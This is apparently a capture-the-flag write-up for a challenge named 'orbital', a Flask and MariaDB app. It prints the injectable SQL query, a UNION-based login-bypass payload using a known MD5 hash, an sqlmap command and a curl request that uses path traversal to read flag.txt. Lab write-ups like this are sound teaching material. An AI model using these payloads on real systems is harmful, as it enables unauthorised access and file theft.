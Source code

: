 # orbital

**SOLVED**

> In order to decipher the alien communication that held the key to their location, she needed access to a decoder with advanced capabilities - a decoder that only The Orbital firm possessed. 
> Can you get your hands on the decoder?

`./build-docker.sh`

Dockerfile -> mariadb, flask, jwt

```dockerfile
# Dockerfile
COPY flag.txt /signal_sleuth_firmware
```

```py
user = query(f'SELECT username, password FROM users WHERE username = "{username}"', one=True)
```

```sql
" UNION SELECT username, 'password' FROM users WHERE username="admin

SELECT username, password FROM users WHERE username = "" UNION SELECT username, 'password' AS password FROM users WHERE username="admin"
```

```sh
python3 /opt/sqlmap/sqlmap.py -u 'http://0.0.0.0:1337/api/login' --level 5 --risk 3 -f --banner --ignore-code 401 --dbms='mysql'
```

password
5f4dcc3b5aa765d61d8327deb882cf99

```sql
" UNION SELECT username, '5f4dcc3b5aa765d61d8327deb882cf99' AS password FROM users WHERE username="admin
```

eyJhdXRoIjoiZXlKaGJHY2lPaUpJVXpJMU5pSXNJblI1Y0NJNklrcFhWQ0o5LmV5SjFjMlZ5Ym1GdFpTSTZJbUZrYldsdUlpd2laWGh3SWpveE5qYzVNams0TmpVd2ZRLjlpRUQ5b1JWa0NsbUR6UnRMbHhMRGkzbnlxZE82MEtBcVVfcWctRThEMjAifQ.ZBe7-g.hb_Nu6raq5V-1Jz2jqis39i6eCg

```sh
# eyJhdXRoIjoiZXlKaGJHY2lPaUpJVXpJMU5pSXNJblI1Y0NJNklrcFhWQ0o5LmV5SjFjMlZ5Ym1GdFpTSTZJbUZrYldsdUlpd2laWGh3SWpveE5qYzVNams0TnpVMGZRLmNVeHFNT2VVbmlteHUydHZBbWQ4MVdYN0xaZUF1OWh2SWFySkh4dmExMHMifQ.ZBe8Yg.JgjCEky4dnIhvZ7TOYX4aVPoaQM

curl 'http://localhost:1337/api/export' \
  -X POST \
  -H 'content-type: application/json' \
  -H 'Cookie: session=eyJhdXRoIjoiZXlKaGJHY2lPaUpJVXpJMU5pSXNJblI1Y0NJNklrcFhWQ0o5LmV5SjFjMlZ5Ym1GdFpTSTZJbUZrYldsdUlpd2laWGh3SWpveE5qYzVNams0TnpVMGZRLmNVeHFNT2VVbmlteHUydHZBbWQ4MVdYN0xaZUF1OWh2SWFySkh4dmExMHMifQ.ZBe8Yg.JgjCEky4dnIhvZ7TOYX4aVPoaQM' \
  --data '{
    "name":"../signal_sleuth_firmware/flag.txt"
  }'
```